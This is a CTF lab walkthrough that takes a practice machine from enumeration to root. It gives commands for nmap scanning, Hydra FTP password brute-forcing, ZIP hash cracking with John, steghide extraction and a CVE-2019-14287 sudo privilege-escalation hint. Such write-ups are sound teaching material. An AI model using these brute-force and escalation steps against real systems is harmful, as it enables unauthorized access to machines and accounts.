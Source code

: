 
---

# 🔐 CTF Walkthrough – From User to Root

## 1. Initial Enumeration

Scan the target for open ports and services:

```bash
nmap -Pn -sV -O 0.0.0.0
```

- Discovered a web service running.
    
- Webpage requires a **custom User-Agent** to reveal clues.
    

---

## 2. Web Enumeration

Access the webpage with a different header:

```bash
curl -A "R" http://0.0.0.0
```

- A clue is revealed.
    

Try another User-Agent:

```bash
curl -A "C" -i http://0.0.0.0
```

- Found hints about a **secret page**.
    

---

## 3. FTP Bruteforce

Using Hydra to brute force FTP login:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://0.0.0.0
```

- Successfully authenticated as **chris**.
    
- Found 3 files inside FTP.
    

---

## 4. File Analysis

Use **binwalk** to extract hidden data:

```bash
binwalk --run-as=root -e cutie.png
```

- Extracted a **ZIP archive**.
    

Crack the password-protected ZIP:

```bash
zip2john 8702.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Extract files:

```bash
7z x 8702.zip
```

Decode hidden base64 string:

```bash
echo "QXJlYTUx" | base64 -d
```

---

## 5. Steganography

Hidden message inside **cute-alien.jpg**:

```bash
steghide extract -sf cute-alien.jpg
```

- Extracted credentials → retrieved **user flag**.
    

---

## 6. Privilege Escalation

Target is vulnerable to **CVE-2019-14287 (sudo flaw)**.  
Exploit using crafted sudo command:

```bash
# Run exploit script or directly abuse sudo -u#-1
```

- Escalated to **root**.
    
- Retrieved **root flag**.
    

---

# ✅ Summary

- Enumeration revealed custom User-Agent checks.
    
- FTP cracked with Hydra → hidden files → extracted ZIP.
    
- Steganography revealed user flag.
    
- Privilege escalation via CVE-2019-14287 → root flag obtained.
    

---
